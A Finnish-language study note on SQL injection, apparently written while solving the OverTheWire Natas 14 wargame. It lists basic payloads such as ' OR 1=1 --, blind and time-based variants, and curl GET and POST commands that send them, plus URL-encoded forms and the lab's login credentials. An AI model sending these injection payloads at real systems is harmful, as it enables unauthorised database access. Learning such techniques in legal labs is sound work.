 Periaatteessa tämä `' OR 1=1 --` - voi toimia pienenä lunttilappuna ja pikaisella koodina.

Jos taso menee vaikeammaksi niin lomake kenttään käytä suodatusta  `'` - merkkiä 

Muita vaiheita tulee mukaan:
- Blind SQLi (testataan vaikka `AND 1=1` vs. `AND 1=2` ja katsotaan käyttäytyminen)
- Time-based SQLi (esim. `SLEEP(5)`-pohjaiset injektiot)
- Automatisointi (sqlmap) kun payloadit monimutkaistuvat

--- 

## SQL injektio CURL komennossa ja URL:ssa

CURL - komento pätee SQL-injektion testaammista, mutta erityisesti POST - ja GET pyyntöjen muokkaamista. Huomioina erikoismerkistä (`"`, `'`, `=`, normiväli, `--` ja jne) näitä täytyy enkoodata URL-linkin muotoon, jotta ne eivät riko komentoa tai HTTP-protokollaa. 

Tämä pätee `curl`- komento POST-pyyntö SQL-injektiolla:

`curl "http://target.site/login?username=admin' OR 1=1 --&password=whatever"`

```
curl -X POST http://target.site/login \
  -d "username=admin' OR 1=1 --&password=whatever"
```

Tämä on alempi komennon kuvausta tarkennuksena: 
-X POST: tehdään POST-pyyntö
-d: data, joka normaalisti tulisi lomakkeesta:
--compressed: pakkaustuki, joskus tarpeen Overthewire-labroissa
```
curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 \
  -X POST "http://natas14.natas.labs.overthewire.org/" \
  -d "username=admin\" OR 1=1 --&password=irrelevant" \
  --compressed
```

Kun käytät SQL-injektiota URLin kautta, sinun täytyy URL-enkoodata erikoismerkit, jotta ne menevät palvelimelle oikein — muuten selain tai palvelin tulkkaa ne väärin tai estää pyynnön kokonaan.

`' OR 1=1 --`- on enkoodattuna muodossa `%27%20OR%201%3D1%20--`

🔎 Miksi enkoodata?
Web-palvelimet ja selaimet odottavat, että URL:ssa on vain tietyt sallitut merkit. Jos laitat esimerkiksi ' (heittomerkki) suoraan URLiin, se voi rikkoa pyynnön tai aiheuttaa virheen jo ennen kuin se ehtii tietokantaan asti.

esim. `curl "http://example.com/login.php?username=admin%27%20OR%201%3D1%20--&password=whatever"`

Esim. tässä Natas 14 harjoituksessa: `http://natas14.natas.labs.overthewire.org/index.php?debug=1&&username=admin&&password=admin%22%20OR%201=1%E2%80%93%20&&password=admin`

---

# SQLMAP komento - START HERE;
